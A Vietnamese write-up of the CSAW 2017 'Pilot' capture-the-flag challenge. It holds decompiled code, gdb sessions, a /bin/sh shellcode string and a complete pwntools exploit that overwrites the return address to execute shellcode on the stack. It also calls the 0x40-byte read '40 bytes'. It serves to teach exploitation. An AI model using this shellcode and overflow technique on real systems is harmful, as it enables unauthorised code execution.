 ### Pilot - CSAW 2017
* Check security file:
```
 ❯ checksec pilot
[*] '/mnt/c/Users/levan/OneDrive/Documents/CTF/NightMare/pilot'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```
* Thấy rằng file bin này cho phép thực thi lệnh trên stack.
* Source sau khi được dịch qua IDA:
```
{
  __int64 v3; // rax
  __int64 v4; // rax
  __int64 v5; // rax
  __int64 v6; // rax
  __int64 v7; // rax
  __int64 v8; // rax
  __int64 v9; // rax
  __int64 v10; // rax
  __int64 v11; // rax
  __int64 v12; // rax
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  v3 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]Welcome DropShip Pilot...");
  std::ostream::operator<<(v3, &std::endl<char,std::char_traits<char>>);
  v4 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]I am your assitant A.I....");
  std::ostream::operator<<(v4, &std::endl<char,std::char_traits<char>>);
  v5 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]I will be guiding you through the tutorial....");
  std::ostream::operator<<(v5, &std::endl<char,std::char_traits<char>>);
  v6 = std::operator<<<std::char_traits<char>>(
         &std::cout,
         "[*]As a first step, lets learn how to land at the designated location....");
  std::ostream::operator<<(v6, &std::endl<char,std::char_traits<char>>);
  v7 = std::operator<<<std::char_traits<char>>(
         &std::cout,
         "[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...");
  std::ostream::operator<<(v7, &std::endl<char,std::char_traits<char>>);
  v8 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]Good Luck Pilot!....");
  std::ostream::operator<<(v8, &std::endl<char,std::char_traits<char>>);
  v9 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]Location:");
  v10 = std::ostream::operator<<(v9, buf);
  std::ostream::operator<<(v10, &std::endl<char,std::char_traits<char>>);
  std::operator<<<std::char_traits<char>>(&std::cout, "[*]Command:");
  if ( read(0, buf, 0x40uLL) > 4 )
    return 0LL;
  v11 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]There are no commands....");
  std::ostream::operator<<(v11, &std::endl<char,std::char_traits<char>>);
  v12 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]Mission Failed....");
  std::ostream::operator<<(v12, &std::endl<char,std::char_traits<char>>);
  return 0xFFFFFFFFLL;
}
```

* buf được khởi tạo với kích thước 32 bytes tuy nhiên khi đọc buf lại cho phép 40 bytes, vậy ta sẽ ghi đè được ở đây.
* Chạy bin:
```
[*]Welcome DropShip Pilot...
[*]I am your assitant A.I....
[*]I will be guiding you through the tutorial....
[*]As a first step, lets learn how to land at the designated location....
[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
[*]Good Luck Pilot!....
[*]Location:0x7fffffffdae0
[*]Command:
```
* Theo thông thường khi khai thác buffer overflow thì payload sẽ bao gồm padding + địa chỉ, padding sẽ nằm trong stack, file bin này cho phép thực thi mã trên stack nên ta có thể chèn vào một shell code trong phần padding.
* Đoạn mã shell code `\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05`
* Tiếp theo cần tìm kích thước của padding để ghi đè.
* Đầu tiên nhập vào chuỗi bất kì sau đó dùng search-pattern để tìm địa chỉ chuỗi này được ghi vào trong stack:
```
gef➤  search-pattern 181818
[+] Searching '181818' in memory
[+] In '[stack]'(0x7ffffffdd000-0x7ffffffff000), permission=rwx
  0x7fffffffdae0 - 0x7fffffffdae8  →   "181818\n"
```

* Tìm địa chỉ của rip
```
gef➤  i f
Stack level 0, frame at 0x7fffffffdb10:
 rip = 0x400aee; saved rip = 0x7ffff7b99c8a
 called by frame at 0x7fffffffdbb0
 Arglist at 0x7fffffffdad8, args:
 Locals at 0x7fffffffdad8, Previous frame's sp is 0x7fffffffdb10
 Saved registers:
  rbp at 0x7fffffffdb00, rip at 0x7fffffffdb08
```
* Leak address được chương trình là địa chỉ của `buf`, khi truyền vào payload, nó sẽ đè lên địa chỉ của thanh ghi rip và nó trỏ đến `buf`
* Như vậy ta có được offset cần là:
```
>>> 0x7fffffffdb08-0x7fffffffdae0
40
```
* Vậy payload sẽ có dạng như thế này: |----(shell)---Padding------------|--Leak Address--|
* Khi được đưa vào stack, leak address sẽ overwrite lên return address, shell code sẽ nằm trong stack và thực thi. 
* file exploit:
```
from pwn import *
p = process('./pilot')

# scpt = '''
# b *0x0000000000400AEE
# '''
# gdb.attach(p, gdbscript=scpt)
print(p.recvuntil(b'[*]Location:'))

leak = str(p.recvline())
adr = int(leak.strip("b'\\n"), 16)

shell_code = b'\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05' # Shell code
payload = b''
payload += shell_code
payload += b'a'*(40-len(shell_code))	
payload += p64(adr)

p.sendline(payload)
p.interactive()
p.close()
```
